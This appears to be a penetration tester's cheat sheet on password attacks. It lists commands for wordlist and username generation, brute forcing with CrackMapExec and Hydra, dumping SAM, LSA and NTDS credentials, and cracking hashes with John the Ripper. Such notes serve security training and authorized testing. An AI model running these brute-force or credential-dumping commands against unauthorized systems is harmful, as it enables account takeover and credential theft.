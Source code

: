 Hashcat also comes with a prebuilt ruleset:
```
ls /usr/share/hashcat/rules/
```

**Word List from Site**
There's a tool called [`CeWL`](https://github.com/digininja/CeWL) that can generate a word list based off of words found in a company site:
```shell
cewl <domain> -d <depth> -m <min word len> --lowercase -w <outfile>
```

**Generate Potential Usernames**
[Username anarchy](https://github.com/urbanadventurer/username-anarchy) is a tool that can be used to generate potential usernames given a premade list of first and last names:
```shell
./username-anarchy -i /path/to/listoffirstandlastnames.txt
```
# Remote Password Attacks
### Crackmapexec
**General Brute Force**
```shell
crackmapexec winrm <ip> -u user.list -p password.list # brute force users
crackmapexec smb <ip> -u "user" -p "password" --shares # enumerate shares
```

**Dumping Credentials**
```shell
# All of these require admin perms
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam 
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa

crackmapexec smb <ip> -u <username> -p <password> --ntds
```
### Hydra
```shell
# Using lists, for non lists use -l and -p respectively
hydra -L user.list -P password.list <service>://<ip>

# Using a list of credentials
hydra -C <user_pass.list> ssh://<IP>
```
# Cracking Passwords
### John the Ripper
By far one of the best cracking tools. Learn to use it well. [Source link](https://www.openwall.com/john/).
```shell
# General syntax
john --format=<format> hashes_to_crack.txt
john --show hashes_to_crack.txt

# Using a wordlist:
john --wordlist=<wordlist_file> --rules <hash_file>

# Incremental mode
john --incremental <hash_file>

# John has a list of tools for cracking files:
<tool> <file_to_crack> > file.hash # produces a hash file to be cracked
john --wordlist=<wordlist> file.hash
john file.hash --show

```